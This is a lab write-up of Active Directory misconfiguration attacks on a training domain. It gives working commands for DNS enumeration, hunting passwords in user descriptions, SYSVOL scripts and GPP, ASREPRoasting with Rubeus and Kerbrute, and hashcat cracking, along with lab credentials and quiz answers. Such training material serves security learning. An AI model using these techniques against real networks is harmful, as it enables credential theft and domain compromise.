

<div align='center'>

# **Lab 20: Miscellaneous Misconfigurations** 

</div>

## **Enumerating DNS Records**

**Using adidnsdump**

```zsh
adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 
```

Enter the password for the user when prompted: `Klmcargo2`

We get 20 records


**Viewing the Contents of the records.csv File**


**Using the -r Option to Resolve Unknown Records**

```zsh
adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 -r 
```


**Finding Hidden Records in the records.csv File**


## **Password in Description Field**

```powershell
Get-DomainUser * | Select-Object samaccountname,description |Where-Object {$_.Description -ne $null}
```


We can see the user `ldap.agent` with password `Sunsh1ne4All!`

## **PASSWD_NOTREQD Field**

If this is set, the user is not subject to the current password policy length, meaning they could have a shorter password or no password at all

```powershell
Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol
```


**Question:** Find another user with the passwd_notreqd field set. Submit the samaccountname as your answer. The samaccountname starts with the letter "y".

- **Answer:** ygroce


## **Credentials in SMB Shares and SYSVOL Scripts**

```powershell
ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts
```

We see an interesting script `reset_local_admin_pass.vbs`


**Discovering the Password in the Script**


We can see the password `!ILFREIGHT_L0cALADmin!` may be the password for user `Administrator`

## **Group Policy Preferences (GPP) Passwords**

**Using CrackMapExec's gpp_autologin Module**

```zsh
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin
```


We can see user `guarddesk` with password `ILFreightguardadmin!`

## **ASREPRoasting**

It's possible to obtain the Ticket Granting Ticket (TGT) for any account that has the Do not require Kerberos pre-authentication setting enabled. Many vendor installation guides specify that their service account be configured in this way. The authentication service reply (AS_REP) is encrypted with the account’s password, and any domain user can request it.

**Viewing an Account with the Do not Require Kerberos Preauthentication Option**


**Enumerating for DONT_REQ_PREAUTH Value using Get-DomainUser**

```powershell
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```



We see two users: `ygroce` and `mmorgan`

**Retrieving AS-REP in Proper Format using Rubeus**

```powershell
Rubeus.exe asreproast /user:ygroce /nowrap /format:hashcat
```


We get the [AS-REP hash](../docs/ygroce_AS-REP.txt) for user `ygroce`

**Cracking the Hash Offline with Hashcat**

```zsh
hashcat -m 18200 ygroce_AS-REP.txt /usr/share/wordlists/rockyou.txt
```


We get the password `Pass@word`

**Questions**: Find another user with the "Do not require Kerberos pre-authentication setting" enabled. Perform an ASREPRoasting attack against this user, crack the hash, and submit their cleartext password as your answer.

- **Answer:** Pass@word


**Other ways to perform ASREPRoasting**

Retrieving the AS-REP Using Kerbrute

```zsh
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 
```


Using GetNPUsers.py

```zsh
GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users 
```

